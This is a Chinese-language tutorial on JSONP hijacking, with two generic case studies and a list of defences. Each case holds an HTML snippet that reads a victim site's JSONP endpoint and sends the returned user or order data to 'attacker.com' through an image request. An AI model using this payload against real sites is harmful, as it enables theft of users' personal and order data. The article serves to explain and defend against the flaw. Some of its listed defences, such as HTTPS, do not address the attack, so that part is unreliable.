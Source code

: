 ### JSONP劫持漏洞案例分析

#### 1. 引言
JSONP（JSON with Padding）是一种用于跨域数据请求的技术，通常用于解决浏览器的同源策略限制。然而，JSONP也存在安全风险，特别是在未正确验证请求来源的情况下，可能导致JSONP劫持漏洞。本文将分析真实世界中的JSONP劫持漏洞案例，并探讨其攻击实例。

#### 2. JSONP劫持漏洞概述
JSONP劫持漏洞是指攻击者通过构造恶意网页，利用目标网站的JSONP接口获取用户的敏感数据。由于JSONP请求不验证请求来源，攻击者可以在自己的网页中嵌入JSONP请求，从而获取目标网站返回的敏感数据。

#### 3. 案例分析

##### 3.1 案例一：某社交平台的JSONP劫持漏洞
**背景**：某社交平台提供了一个JSONP接口，用于获取用户的个人信息，如用户名、邮箱地址等。该接口未对请求来源进行验证，导致存在JSONP劫持漏洞。

**攻击过程**：
1. **构造恶意网页**：攻击者创建一个恶意网页，并在其中嵌入JSONP请求。例如：
   ```html
   <script>
   function callback(data) {
       // 将获取的用户信息发送到攻击者的服务器
       var img = new Image();
       img.src = "http://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data));
   }
   </script>
   <script src="https://victim.com/userinfo?callback=callback"></script>
   ```
2. **诱导用户访问**：攻击者通过钓鱼邮件、社交媒体等方式诱导用户访问该恶意网页。
3. **获取用户信息**：当用户访问恶意网页时，浏览器会自动发送JSONP请求到目标网站，并将返回的用户信息发送到攻击者的服务器。

**影响**：攻击者可以获取用户的个人信息，如用户名、邮箱地址等，可能导致用户隐私泄露。

##### 3.2 案例二：某电商网站的JSONP劫持漏洞
**背景**：某电商网站提供了一个JSONP接口，用于获取用户的订单信息。该接口未对请求来源进行验证，导致存在JSONP劫持漏洞。

**攻击过程**：
1. **构造恶意网页**：攻击者创建一个恶意网页，并在其中嵌入JSONP请求。例如：
   ```html
   <script>
   function callback(data) {
       // 将获取的订单信息发送到攻击者的服务器
       var img = new Image();
       img.src = "http://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data));
   }
   </script>
   <script src="https://victim.com/orders?callback=callback"></script>
   ```
2. **诱导用户访问**：攻击者通过钓鱼邮件、社交媒体等方式诱导用户访问该恶意网页。
3. **获取订单信息**：当用户访问恶意网页时，浏览器会自动发送JSONP请求到目标网站，并将返回的订单信息发送到攻击者的服务器。

**影响**：攻击者可以获取用户的订单信息，如订单号、商品信息、支付金额等，可能导致用户财产损失。

#### 4. 防御措施
为了防止JSONP劫持漏洞，可以采取以下防御措施：

1. **验证请求来源**：在服务器端验证请求的来源，只允许来自信任域名的请求。
2. **使用CSRF令牌**：在JSONP请求中添加CSRF令牌，确保请求来自合法的用户。
3. **限制JSONP接口的使用**：尽量避免使用JSONP接口，改用CORS（跨域资源共享）等其他跨域技术。
4. **加密敏感数据**：在传输敏感数据时，使用HTTPS加密，防止数据被窃取。

#### 5. 结论
JSONP劫持漏洞是一种常见的Web安全漏洞，攻击者可以通过构造恶意网页，利用目标网站的JSONP接口获取用户的敏感数据。为了防止JSONP劫持漏洞，开发者应采取有效的防御措施，如验证请求来源、使用CSRF令牌、限制JSONP接口的使用等。通过加强安全意识和技术防护，可以有效减少JSONP劫持漏洞带来的安全风险。

---

*文档生成时间: 2025-03-11 14:23:18*






















